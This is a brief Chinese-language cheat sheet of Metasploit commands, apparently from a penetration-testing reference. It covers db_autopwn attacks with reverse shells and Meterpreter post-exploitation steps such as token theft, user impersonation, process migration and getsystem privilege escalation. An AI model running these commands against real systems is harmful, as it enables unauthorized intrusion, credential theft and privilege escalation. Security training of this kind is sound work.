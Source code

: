 db_autopwn -p -r -e

对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹式shell。

db_destroy

删除当前数据库。

db_destroy user:password@host:port/database

使用高级选项来删除数据库。

2.metapreter命令

help

打开帮助

run scriptname

运行meterpreter脚本，在scripts/meterpreter目录下可查看到所有脚本名。

sysinfo

列出受控主机的系统信息。

ls

列出目标主机的文件和文件夹信息。

use priv

加载特权提升扩展模块，来扩展meterpreter库。

ps

显示所有运行进程以及关联的用户账户。

migrate PID

迁移到一个指定的进程ID

use incognito

加载inconito功能（用来盗取目标主机的令牌或是假冒用户）

list_tokens -u

列出目标主机用户组的可用令牌。

impersonate_token DOMAIN_NAME\\USERNAME

假冒目标主机上的可用令牌。

steal_token

盗窃给定进程的可用令牌并进行令牌假冒。

drop_token

停止假冒当前的令牌。

getsystem

通过各种攻击向量来提升到系统用户权限。
